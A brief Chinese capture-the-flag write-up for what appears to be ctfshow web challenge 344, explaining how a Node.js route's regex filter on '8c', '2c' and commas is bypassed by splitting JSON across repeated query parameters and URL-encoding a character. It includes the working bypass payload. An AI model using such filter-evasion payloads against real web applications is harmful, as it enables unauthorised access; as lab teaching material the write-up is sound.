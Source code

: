 # 344
```js
router.get('/', function(req, res, next) {
 res.type('html');
 var flag = 'flag_here';
 if(req.url.match(/8c|2c|\,/ig)){
 	res.end('where is flag :)');
 }
 var query = JSON.parse(req.query.query);
 if(query.name==='admin'&&query.password==='ctfshow'&&query.isVIP===true){
 	res.end(flag);
 }else{
 	res.end('where is flag. :)');
 }

});
```

即 url 中不能包含大小写 `8c、2c 和 逗号`

`nodejs 会把同名参数以数组的形式存储，并且 JSON.parse 可以正常解析`

![](https://img-blog.csdnimg.cn/34b26e479ce54df79f007fba54123da8.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

paylaod:

```
?query={"name":"admin"&query="password":"%63tfshow"&query="isVIP":true}
```

引号url编码为%22与c形成%22c匹配正则，所以编码c

